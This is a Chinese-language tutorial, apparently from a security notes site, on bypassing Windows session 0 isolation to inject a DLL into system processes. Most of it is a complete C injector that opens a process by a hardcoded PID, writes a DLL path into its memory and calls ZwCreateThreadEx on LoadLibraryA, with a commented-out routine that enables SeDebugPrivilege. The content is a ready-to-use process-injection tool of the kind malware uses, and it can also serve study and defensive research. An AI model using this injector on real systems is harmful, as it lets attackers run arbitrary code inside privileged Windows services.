 # Bypass Session 0 Injection

## 简介

在使用传统的进程注入技术的过程中，可以向普通用户用户进程注入shellcode或dll，那么如果我们想更进一步注入到系统进程内，通常会失败，这是由于session 0隔离的缘故，接下来本文会介绍如何突破session 0隔离进行对系统进程的注入。

## ZwCreateThreadEx函数

通过调用CreateRemoteThread创建远程线程在NT内核6.0以前是没有什么问题，但在6.0以后引入了session隔离机制，在创建一个线程时先挂起，然后判断是否运行在所在会话层再决定是否恢复运行。

ZwCreateThreadEx函数比CreateRemoteThread函数更接近内核，CreateRemoteThread最终也是调用ZwCreateThreadEx函数来创建线程的，通过前人的研究发现，通过对CreateRemoteThread逆向研究发现，在内部调用ZwCreateThreadEx会把第七个参数创建标识设置为1，这样会使创建的线程挂起，这也是注入失败的原因。

所以如果想要创建的线程成功执行我们需要将第七个参数指定为0，这样我们就能在创建线程后让他执行。

ZwCreateThreadEx函数原型不同位数莫得区别。

![](../.gitbook/assets/image%20%2823%29.png)

## 代码实现

该注入技术与经典WriteProcessMemory，CreateRemoteThread注入技术非常相似，只是把创建进程的函数从CreateRemoteThread换成了ZwCreateThreadEx。

```text
#include <Windows.h>
#include <stdio.h>

#ifdef _WIN64
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	ULONG CreateThreadFlags,
	SIZE_T ZeroBits,
	SIZE_T StackSize,
	SIZE_T MaximumStackSize,
	LPVOID pUnkown);
#else
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	BOOL CreateSuspended,
	DWORD dwStackSize,
	DWORD dw1,
	DWORD dw2,
	LPVOID pUnkown);
#endif

typedef DWORD(WINAPI* typedef_LoadLibraryA)(char* path);
/*
BOOL EnbalePrivileges(HANDLE hProcess, char* pszPrivilegesName)
{
	HANDLE hToken = NULL;
	LUID luidValue = { 0 };
	TOKEN_PRIVILEGES tokenPrivileges = { 0 };
	BOOL bRet = FALSE;

	bRet = OpenProcessToken(hProcess, TOKEN_ADJUST_PRIVILEGES, &hToken);

	bRet = LookupPrivilegeValue(NULL, pszPrivilegesName, &luidValue);

	tokenPrivileges.PrivilegeCount = 1;
	tokenPrivileges.Privileges[0].Luid = luidValue;
	tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	bRet = AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, 0, NULL, NULL);


	return TRUE;
}*/

int main(int argc, char* argv[]) {
	//EnbalePrivileges(GetCurrentProcess(), SE_DEBUG_NAME);

	char DllPath[] = "C:\\Users\\Black Sheep\\source\\repos\\sesion0\\x64\\Debug\\TestDll.dll";

	HANDLE hRemoteThread;

	HANDLE hNtModule = GetModuleHandleA("ntdll.dll");

	HANDLE hKeModule = GetModuleHandleA("Kernel32.dll");

	typedef_ZwCreateThreadEx ZwCreateThreadEx = GetProcAddress(hNtModule, "ZwCreateThreadEx");

	typedef_LoadLibraryA myLoadLibraryA = GetProcAddress(hKeModule, "LoadLibraryA");

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 1516);

	LPVOID lpBaseAddress = VirtualAllocEx(hProcess, NULL, sizeof(DllPath)+1, MEM_COMMIT, PAGE_READWRITE);

	WriteProcessMemory(hProcess, lpBaseAddress, DllPath, sizeof(DllPath), 0);

	ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)myLoadLibraryA, lpBaseAddress, 0, 0, 0, 0, NULL);

	CloseHandle(hRemoteThread);
	CloseHandle(hProcess);
	FreeLibrary(hKeModule);
	FreeLibrary(hNtModule);
	return 0;

}
```

![](../.gitbook/assets/image%20%283%29.png)

* github:[https://github.com/idiotc4t/sesion0](https://github.com/idiotc4t/sesion0)

## LINKS

《windows黑客编程》

{% embed url="https://kb.firedaemon.com/support/solutions/articles/4000086228-what-is-session-0-isolation-what-do-i-need-to-know-about-it-" %}



